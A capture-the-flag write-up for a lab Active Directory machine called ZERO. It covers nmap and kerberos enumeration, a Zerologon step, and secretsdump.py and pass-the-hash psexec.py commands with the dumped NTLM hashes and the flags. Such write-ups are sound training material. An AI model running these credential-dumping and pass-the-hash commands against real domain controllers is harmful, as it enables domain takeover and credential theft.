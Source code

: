 # ZERO / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/5c7dbc78966d4e10a5a210a22e3f3906.png)

## NMAP SCAN

```text
sudo nmap -sC -sV -p- 172.31.1.29 -vv
```

{% hint style="info" %}
You can use the alias function in your .zshrc or .bashrc located in your home directory.

Like: `alias nscan='sudo nmap -sC -sV -vv -p-' to only use nscan 172.31.1.29`
{% endhint %}

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-15 19:50:22Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Zero.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Zero.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: ZERO
|   NetBIOS_Domain_Name: ZERO
|   NetBIOS_Computer_Name: ZERO-DC
|   DNS_Domain_Name: Zero.csl
|   DNS_Computer_Name: Zero-DC.Zero.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-15T21:13:56+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49751/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49883/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## ADD THE DNS DOMAIN NAME TO YOUR /ETC/HOSTS

```text
Zero.csl
```

## SMB ENUMERATION

* Nothing to see here 😡 

## KERBEROS ENUMERATION

### USER ENUMERATION

```text
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain ZERO -dc-ip Zero.csl
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/a7e35ecbdd6844579fb1c749a110b3b2.png)

### ASREPRoast

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/6999a81a61634f8e8095f3f45465411f.png)

## LDAP ENUMERATION

```text
nmap -n -sV --script "ldap* and not brute" -p 389 Zero.csl
```

```text
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: Zero.csl, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
------------REDACTED---------------
```

## ZERO LOGON

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/70c82ba94ddb472c9a8c2a7e27d44376.png)

```text
sudo secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '/ZERO-DC$@172.31.1.29'
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e30861999e9346ee8c2170db00ffd24e.png)

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a190af9837b4381407a3b689e0c839cf:::
jared:1104:aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990:::
ZERO-DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## GET SHELL

```text
psexec.py Administrator@172.31.1.29 -hashes aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/b55925decef349b3ab8c54f90ad89deb.png)

## FLAGS

### USER

```text
d839c4ab769c3bb84207b7ec6808b1e2
```

### ROOT

```text
ba08f724b22cd1d3cf890e45b3acd4de
```


